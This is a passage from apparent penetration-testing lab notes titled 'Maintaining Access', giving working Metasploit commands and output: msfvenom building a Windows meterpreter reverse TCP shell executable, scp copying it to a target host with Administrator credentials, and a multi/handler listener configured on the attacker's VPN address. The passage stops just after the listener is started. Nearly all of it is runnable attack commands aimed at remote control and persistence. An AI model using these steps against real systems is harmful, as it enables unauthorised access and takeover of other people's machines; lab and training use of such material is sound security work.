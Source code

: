 ___

## Maintaining Access

> TODO: look at advanced backdoors and rootkits, adding users and so on.

### Persistence metasploit module

1) Generate a basic windows meterpreter reverse tcp shell

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=$(vpnip) LPORT=5555 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

2) Transfer the payload from your attacker machine to the target machine:

```bash
$ scp shell.exe Administrator@10.10.245.132:
Administrator@10.10.245.132's password: 
shell.exe       100%   72KB 559.7KB/s   00:00
```

3) Run a listener:

```bash
$ msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.11.35.147
msf6 exploit(multi/handler) > run

```